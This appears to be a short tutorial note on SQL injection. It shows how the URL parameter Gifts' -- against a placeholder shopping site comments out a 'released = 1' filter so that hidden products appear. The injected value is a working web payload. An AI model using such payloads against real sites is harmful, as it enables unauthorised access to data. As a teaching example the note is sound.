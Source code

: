 --- ---

<h2>Retrieving Hidden Data</h2>

Target URL: https://insecure-website.com/products?category=Gifts
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Exploit URL: https://insecure-website.com/products?category=Gifts' --
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- -- is a comment indicator in SQL

In Result, all produces are displayed -> including unreleased products